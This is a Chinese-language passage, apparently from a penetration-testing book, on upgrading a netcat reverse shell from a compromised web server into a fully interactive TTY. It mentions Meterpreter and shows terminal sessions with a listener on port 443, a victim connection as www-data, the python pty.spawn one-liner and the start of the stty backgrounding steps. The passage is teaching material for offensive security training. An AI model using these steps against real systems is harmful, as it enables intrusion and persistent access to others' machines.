 Netcat 并不是唯一的 shell 选项。如果我们通过 `expect://` 获得代码执行权限，还可以上传 Meterpreter 有效载荷，并通过 Metasploit 控制台获取访问权限，从而获得更多的后期利用工具。有了远程代码执行，几乎没有限制。

### 交互式 Shell

通过 netcat 反向 shell 可以执行一些命令并可能读取文件，但它不提供交互性。为了在后期利用中更高效，我们需要访问一些工具，比如 Vim 或 SSH，它们需要一个合适的终端。

升级我们的 shell 需要几个步骤，有些人可能称之为魔法。首先，我们可以调用`python`来生成一个新的 TTY bash shell。虽然不完美，但比我们之前的要好：

```
python -c '**import pty; pty.spawn("/bin/bash")**'
```

如果你不熟悉 Python，这一行代码可能看起来很奇怪，但它其实做的就是导入`pty`包并生成一个 bash shell。

在我们的反向 shell 中，我们执行`python`命令，结果应该看起来很熟悉：

```
root@spider-c2-1:~# nc -lvp 443
listening on [any] 443 ...
connect to [10.240.0.4] from [107.181.189.72] 42384
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd   
/var/www/html/xml
**python -c 'import pty; pty.spawn("/bin/bash")'**
**www-data$**

```

仍然存在一些问题：虽然 Vim 能正常工作，但无法访问历史记录，*Tab* 补全也不起作用，*Ctrl*-*C*会终止 shell。

让我们更进一步，尝试通过`stty`和本地终端配置升级到完整的 TTY。

首先，一旦使用前面的 Python 一行代码升级了 shell，我们需要通过*Ctrl*-*Z*将进程发送到后台：

```
root@spider-c2-1:~# nc -lvp 443
listening on [any] 443 ...
connect to [10.240.0.4] from [107.181.189.72] 42384
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd   
/var/www/html/xml
**python -c 'import pty; pty.spawn("/bin/bash")'**
**www-data$ ^Z**
**[1]+  Stopped                 nc -lvp 443**
**root@spider-c2-1:~#**

```

我们需要通过检查`$TERM`变量来找出当前的终端类型：

```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data$ ^Z
[1]+  Stopped                 nc -lvp 443
root@spider-c2-1:~# **echo $TERM**
**screen**

```
